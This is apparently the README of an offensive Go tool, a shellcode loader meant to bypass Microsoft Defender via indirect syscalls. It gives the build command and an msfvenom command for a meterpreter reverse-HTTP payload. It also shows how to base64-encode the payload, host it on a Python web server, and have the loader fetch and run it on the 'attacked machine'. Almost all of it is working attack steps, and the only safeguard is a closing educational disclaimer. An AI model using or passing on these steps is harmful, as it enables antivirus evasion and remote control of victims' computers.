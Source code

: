 # Overview
A simple golang loader that bypass Defender.

It uses [acheron](https://github.com/f1zm0/acheron) to make some indirect syscalls.
> I am currently working on improving this project and enhancing my skills in offensive Go. Any feedback is welcome!

### Compilation

```bash
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" loader.go
```

### Usage

Generate the shellcode to execute, I usually use Havoc but it works with anyone:

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=YOUR_IP LPORT=8080 -f raw -o shellcode.bin
base64 -w0 shellcode.bin > shellcode.enc
```
or using Havoc C2:

![Havoc Shellcode Generator](https://i.imgur.com/iaNxbKi.png)
```bash
base64 -w0 shellcode.bin > shellcode.enc
```

There are several ways to create HTTP servers, I will use this one in the directory with the shellcode.enc:
```bash
python3 -m http.server 80
```
From the attacked machine run the following command:
```powershell
.\loader.exe -url http://<YOUR_IP>/shellcode.enc
```
![Shellcode Executed](https://i.imgur.com/XeUIL6C.png)

![msfvenom shellcode executed](https://i.imgur.com/2LMnHgQ.png)

![Havoc console](https://i.imgur.com/sk72waR.png)


> [!WARNING]
> This project is for educational purposes only. Do not run it on machines you do not own or have explicit permission to test.

